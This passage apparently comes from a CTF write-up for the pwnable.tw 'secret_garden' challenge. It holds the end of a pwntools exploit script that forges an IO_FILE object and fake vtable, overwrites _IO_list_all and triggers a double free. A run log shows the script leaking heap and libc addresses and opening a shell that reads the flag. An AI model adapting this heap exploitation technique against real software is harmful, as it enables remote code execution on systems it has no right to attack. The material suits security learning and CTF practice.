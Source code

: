     payload += p64(fake_vtable)           # FAKE_IO_FILE+0xd8 = &fake_vtable  
    payload += "\xff"*(0xfe-0xd8-0x8)+"\n" 
    addFlower(0xff,"O"*23,payload)        # does NOT pop anything off fastbin since size >= 0x80 bytes
    
    fake_IO_file = heap_base+0x15f0 
    log.success("fake IO_FILE object crafted at: "+hex(fake_IO_file-0x10))
    
    # 2.5) now that we've crafted fake_IO_FILE, let's overwrite _IO_list_all with &fake_IO_FILE
    payload  = p64(0x4141414141414141)*2
    payload += "BBB"
    payload += p64(fake_IO_file)
    addFlower(0x68,"Q"*23,payload)
   
    ## STAGE 3: TRIGGER DOUBLE FREE CORRUPTION TO CALL ABORT() ROUTINE ## 
    log.info("triggering double free corruption...")
    delFlower(8)
    delFlower(8,False)
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":"./libc_64.so.6"})
        #r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
➜  secret_garden python solve.py chall.pwnable.tw 10203        
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10203: Done
[*] '/home/vagrant/CTFs/pwnable.tw/secret_garden/libc_64.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] starting stage 1 UAF attack...
[+] heap base found at: 0x562db06df000
[+] libc base found at: 0x7f6e85a49000
[+] "magic" gadget found at: 0x7f6e85b39567
[*] starting stage 2 fastbin attack...
[+] target fake vtable at: 0x562db06e0338
[+] fake IO_FILE object crafted at: 0x562db06e05e0
[+] _IO_list_all at 0x7f6e85e0d520 overwritten!
[*] triggering double free corruption...
[*] Switching to interactive mode
$ cat /home/secretgarden/flag
FLAG{FastBiN_C0rruption_t0_BUrN_7H3_G4rd3n}
$  
{% endhighlight %}
